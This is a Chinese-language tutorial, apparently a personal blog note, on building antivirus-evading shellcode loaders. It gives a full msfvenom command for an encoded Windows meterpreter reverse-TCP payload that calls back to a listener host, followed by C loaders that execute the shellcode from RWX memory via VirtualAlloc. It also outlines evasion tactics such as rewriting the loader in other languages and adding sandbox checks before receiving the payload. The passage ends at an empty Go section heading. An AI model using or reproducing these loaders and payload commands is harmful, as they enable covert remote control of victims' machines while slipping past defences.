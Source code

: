 这是最最最基础的loader，当考虑到免杀时，我们可以尝试使用不同的语言来编译exe（比如python, go等）、消除代码中的明显特征，或是为接收payload这一行为前加上沙盒中无法实现的条件来bypass

下面以c的版本做主要的示例：）

```bash
# 亲测这个encoder完全不能用到windows/x64/xxx上 之后编译exe也得用`gcc -m32 x.c -o x.exe` 必须配套32位
# 这样产生的shellcode本体可以做到基本免杀 后续的操作基于如何免杀加载
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 4 -b '\x00' lhost=192.168.31.29 lport=4788 -f c -o t1
```

### C

#### 不考虑loader的裸执行（必被杀

```c
#include <windows.h>
#include <stdio.h>

unsigned char buf[] = "";

void main(){
	((void(*)(void)) & buf)();
}
```

#### 申请动态内存加载

通常会调用kernel32的win api，常见函数和它们的作用（以c为例）

```
malloc: 分配内存
VirtualAlloc: 申请一块可读可写可执行的动态内存区域
memcpy: 从指定内存中复制内容至另一内存里
```

```c
void main(){
	LPVOID Memory;
	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);	// 内存地址, 大小, 分配类型, 该内存的初始保护属性
	memcpy(Memory, buf, sizeof(buf));
	((void(*)())Memory)();
}
```

#### 内联汇编指令

*注意gcc的内联汇编与vc的不同 使用AT&T语法，请参照[GCC内联汇编基础](https://www.jianshu.com/p/1782e14a0766)

### Go

通过`syscall`可以丝滑地调用kernel32.dll的函数

#### 条件触发
